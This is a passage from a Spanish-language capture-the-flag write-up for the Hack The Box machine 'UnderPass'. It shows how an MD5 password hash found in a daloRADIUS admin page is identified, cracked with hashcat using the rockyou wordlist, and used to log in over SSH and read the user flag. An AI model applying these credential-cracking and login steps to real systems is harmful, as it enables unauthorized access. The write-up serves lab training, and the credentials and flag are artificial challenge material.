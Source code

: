 ## Initial Access

Al revisar los diferentes apartados de la página web de `DALORADIUS`, nos encontramos con el apartado de `Management < Users < List Users` en el cual aparece al usuario `svcMosh` con unas credenciales en formato hash. --> [http://underpass.htb/daloradius/app/operators/mng-list-all.php](http://underpass.htb/daloradius/app/operators/mng-list-all.php)&#x20;

<figure><img src="../../../../.gitbook/assets/imagen (202).png" alt=""><figcaption></figcaption></figure>

### Cracking hashes

Por el formato del hash, podemos deducir que se trata de un hash `MD5`. Procedemos a crackear el hash obtenido y logramos crackear la contraseña y obtenerla en texto plano.

```bash
❯ hashid '412DD4759978ACFCC81DEAB01B382403'
Analyzing '412DD4759978ACFCC81DEAB01B382403'
[+] MD2 
[+] MD5 

❯ hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

412dd4759978acfcc81deab01b382403:underwaterfriends  
```

### Accessing to SSH with password cracked

Probaremos de acceder al equipo a través de SSH con las credenciales obtenidas. Logramos acceder y verificar la flag de **user.txt**.

```bash
❯ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

...[snip]...

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ cat user.txt 
7805fc3f0d**********************
```
